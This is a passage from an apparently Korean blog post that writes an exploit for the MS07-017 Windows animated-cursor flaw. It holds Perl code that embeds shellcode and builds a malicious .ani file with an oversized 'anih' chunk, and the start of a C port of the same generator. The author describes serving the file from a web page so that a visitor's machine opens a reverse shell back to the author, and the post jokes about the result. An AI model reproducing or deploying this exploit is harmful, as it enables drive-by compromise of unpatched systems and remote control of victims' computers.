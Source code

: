         . "\x63\x6d\x6a\x50\x59\x29\xcc\x89\xe7\x6a\x44\x89\xe2\x31\xc0\xf3"
        . "\xaa\x95\x89\xfd\xfe\x42\x2d\xfe\x42\x2c\x8d\x7a\x38\xab\xab\xab"
        . "\x68\x72\xfe\xb3\x16\xff\x75\x28\xff\xd6\x5b\x57\x52\x51\x51\x51"
        . "\x6a\x01\x51\x51\x55\x51\xff\xd0\x68\xad\xd9\x05\xce\x53\xff\xd6"
        . "\x6a\xff\xff\x37\xff\xd0\x68\xe7\x79\xc6\x79\xff\x75\x04\xff\xd6"
        . "\xff\x77\xfc\xff\xd0\x68\xf0\x8a\x04\x5f\x53\xff\xd6\xff\xd0"
        ;
    
    my $szAttack_Chunk = length $Attack_Chunk_Data;
    my $szRIFF         = 12 + (0x24+8) . ($szAttack_Chunk + 8);
    my $RIFF_Header    = 'RIFF' . pack('V',$szRIFF) . 'ACON';
    my $Attack_Anih    = 'anih' . pack('V',$szAttack_Chunk) . $Attack_Chunk_Data;
    my $Real_Anih
        = "\x61\x6e\x69\x68\x24\x00\x00\x00\x24\x00\x00\x00"
        . "\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
        . "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
        . "\x04\x00\x00\x00\x01\x00\x00\x00"
        ;
    
    open my $hAni, '>', 'ms07_017.ani';
    print $hAni $RIFF_Header . $Real_Anih . $Attack_Anih;
    close $hAni;

뭐랄까? 바이너리 코드가 많아서 그렇지 꽤나 직관적이지 않나요?
거의 분석한 내용 그대로 써나가는 느낌으로 작성했기 때문에
특별히 코드에 대해 더 설명해야 할 부분은 없을 것 같습니다.

이렇게 생성한 파일을 이용해 웹페이지를 만들고
미리 설정한 대로 특정 포트를 열어둡니다.

![함정 카드][trap-card]

누군가가 해당 웹페이지를 열면...

[![함정 카드 발동!][youve-trapped]][youve-trapped]

아아...

![리버스 쉘이 열린 화면][reverse-shell]

그저 웃지요... ;-)



꼭 Perl로 작성해야 하나요?
---------------------------

물론 그럴리는 없죠.
그래서 Perl로 작성한 코드와 동일한 기능의 프로그램을 C로 작성했습니다.
번잡한 몇 가지의 오류 처리는 생략했다는 점을 유의하세요.

    #!cpp
    #include <stdio.h>
    #include <stdlib.h>
    
    unsigned char Header[] = // ANI Header 12Byte //
        "\x52\x49\x46\x46\x4f\xdc\x00\x00\x41\x43\x4f\x4e";
    

[prepare-before-after]: 2010-12-19-01.jpg
[binary-diff]:          2010-12-19-02.jpg
[binary-diff-zoom]:     2010-12-19-03.jpg
[target-file]:          2010-12-19-05-01.jpg width=700px
[target-file-analysis]: 2010-12-19-05-02.jpg
[metasploit-anihchunk]: 2010-12-19-06.jpg
[trap-card]:            2010-12-19-07.jpg
[youve-trapped]:        2010-12-19-08.jpg width=700px
[reverse-shell]:        2010-12-19-09.jpg
[backtrack-home]:       http://www.backtrack-linux.org/
[metasploit-home]:      http://www.metasploit.com/
[ms07-017-patch]:       http://www.microsoft.com/korea/technet/security/bulletin/ms07-017.mspx
[riff-file-format]:     http://mips.changwon.ac.kr/cyber/multi_theory/multimedia/mmd3-1.html
[twitter-vohrmana]:     http://twitter.com/#!/vohrmana
[wikipedia-exploit]:    http://en.wikipedia.org/wiki/Exploit_%28computer_security%29